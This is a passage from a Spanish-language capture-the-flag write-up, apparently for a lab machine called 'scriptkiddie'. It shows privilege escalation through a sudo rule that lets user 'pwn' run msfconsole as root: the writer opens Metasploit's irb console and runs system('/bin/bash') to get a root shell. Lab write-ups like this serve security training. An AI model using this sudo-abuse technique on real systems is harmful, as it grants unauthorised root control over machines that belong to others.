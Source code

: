 Como el usuario `pwn` podemos `ejecutar metasploit` como `root`

```
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Nos `convertimos` en usuario `root`, en `gtfobins` [https://gtfobins.github.io/gtfobins/msfconsole/](https://gtfobins.github.io/gtfobins/msfconsole/) nos explica la forma de hacerlo

```
pwn@scriptkiddie:~$ sudo msfconsole
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Writing a custom module? After editing your module, why not try the reload command

msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> system("/bin/bash")
```
